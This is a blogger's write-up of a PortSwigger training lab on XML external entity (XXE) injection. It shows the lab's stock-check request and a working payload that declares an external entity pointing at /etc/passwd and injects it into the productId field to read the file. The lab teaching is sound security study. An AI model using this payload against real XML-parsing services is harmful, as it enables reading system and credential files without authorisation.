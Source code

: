 # Exploiting XXE using external entities to retrieve files | Dec 25, 2022

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/xxe/lab-exploiting-xxe-to-retrieve-files), you'll learn: Exploiting XXE using external entities to retrieve files! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★☆☆☆☆☆☆☆☆☆

## Background

This lab has a "Check stock" feature that parses XML input and returns any unexpected values in the response.

To solve the lab, inject an XML external entity to retrieve the contents of the `/etc/passwd` file.

## Exploitation

**Home page:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/XXE-Injection/XXE-1/images/Pasted%20image%2020221225051301.png)

**Let's view one of those products' details:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/XXE-Injection/XXE-1/images/Pasted%20image%2020221225051334.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/XXE-Injection/XXE-1/images/Pasted%20image%2020221225051343.png)

In here, we can see there is a `Check stock` button.

**Let's use Burp Suite to intercept the request:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/XXE-Injection/XXE-1/images/Pasted%20image%2020221225051434.png)

When we clicked that button, it'll send a POST request to `/product/stock`, **with an XML data!**

```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
    <productId>1</productId>
    <storeId>1</storeId>
</stockCheck>
```

**Let's try to send an invalid XML data in the `<productId>` tag:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/XXE-Injection/XXE-1/images/Pasted%20image%2020221225052059.png)

As you can see, the response in **reflected** to us!

**Armed with that information, we can try to do an XXE injection!**
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck>
    <productId>&xxe;</productId>
    <storeId>1</storeId>
</stockCheck>
```

**In here, we defined:**

- The root element of the document is `root` (`!DOCTYPE root`)
- Then, inside that root element, **we defined an external entity(variable) called `xxe`, which is using keyword `SYSTEM` to fetch file `/etc/passwd`**
- Finally, we want to **use the `xxe` entity in `<productId>` tag**, so we can see the output of `/etc/passwd`. To do so, we need to use `&entity_name;`

**Let's send our XXE payload:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/XXE-Injection/XXE-1/images/Pasted%20image%2020221225052927.png)

Nice! We successfully to extract the content of `/etc/passwd`!

# What we've learned:

1. Exploiting XXE using external entities to retrieve files